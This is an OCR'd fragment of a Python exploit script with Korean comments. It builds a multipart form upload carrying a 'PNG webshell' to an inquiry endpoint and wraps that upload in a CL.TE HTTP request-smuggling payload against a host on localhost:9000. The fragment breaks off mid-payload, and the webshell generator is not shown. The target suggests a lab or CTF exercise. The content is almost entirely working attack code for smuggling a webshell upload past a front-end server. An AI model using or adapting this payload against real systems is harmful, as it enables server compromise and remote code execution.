 ```python

    print(f"[*] Target: {host}:{port}")
    print(f"[*] Filename: {filename}\n")

    # PNG 웹쉘 생성
    png_webshell = create_png_webshell_inline()
    print(f"[+] PNG webshell size: {len(png_webshell)} bytes")

    # Multipart boundary
    boundary = b'----WebKitFormBoundary7MA4YWxkTrZu0gW'

    # Multipart body
    multipart_body = (
        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="name"\r\n\r\n'
        b'test\r\n'

        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="email"\r\n\r\n'
        b'test@test.com\r\n'

        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="phone"\r\n\r\n'
        b'010-1234-5678\r\n'

        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="category"\r\n\r\n'
        b'technical\r\n'

        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="subject"\r\n\r\n'
        b'Image Upload\r\n'

        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="message"\r\n\r\n'
        b'PNG webshell test\r\n'

        b'--' + boundary + b'\r\n'
        b'Content-Disposition: form-data; name="image"; filename="' + filename.encode() + b'"\r\n'
        b'Content-Type: image/png\r\n\r\n'
        + png_webshell + b'\r\n'

        b'--' + boundary + b'--\r\n'
    )

    # Smuggled 요청
    smuggled_request = (
        b'POST /api/submit_inquiry.php HTTP/1.1\r\n'
        b'Host: localhost:9000\r\n'
        b'Content-Type: multipart/form-data; boundary=' + boundary + b'\r\n'
        b'Content-Length: ' + str(len(multipart_body)).encode() + b'\r\n'
        b'\r\n'
        + multipart_body
    )

    # CL.TE Smuggling
    payload = (
        b'POST / HTTP/1.1\r\n'
        b'Host: localhost:9000\r\n'
        b'Content-Length: ' + str(len(smuggled_request)).encode() + b'\r\n'
        b'Transfer-Encoding: chunked\r\n'
        b'\r\n'
        b'0\r\n\r\n'
```